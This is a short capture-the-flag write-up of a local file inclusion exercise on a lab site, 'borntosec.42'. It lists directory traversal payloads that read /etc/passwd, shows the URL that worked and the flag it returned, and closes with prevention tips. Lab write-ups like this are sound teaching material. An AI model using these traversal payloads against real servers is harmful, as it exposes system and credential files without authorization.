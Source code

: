 # Local file inclusion
- the vulnerability occurs when a user can control, in some way, the file that the server is going to load
- the server loads a local file (e.g. etc/passwd, /var/log/syslog, /home/username/.ssh/authorized_keys)
- https://book.hacktricks.xyz/pentesting-web/file-inclusion

<b>keywords</b>: include<br>
<b>attacked site</b>: http://borntosec.42/?page=$PAGE_NAME

## Exploit
To check if the vulnerability exists, we can try several payloads:
```
../etc/passwd
../../etc/passwd
../../../etc/passwd
../../../../etc/passwd
../../../../../etc/passwd
../../../../../../etc/passwd
../../../../../../../etc/passwd
../../../../../../../../etc/passwd
```
We succeeded with the penultimate one:
``` html
http://borntosec.42/?page=../../../../../../../etc/passwd
```
Visiting this URL opens a popup window:
```
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

## Flag
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

## Exploit prevention
- validate user input
- use absolute paths (specify the full path on the server)
- restrict file inclusion
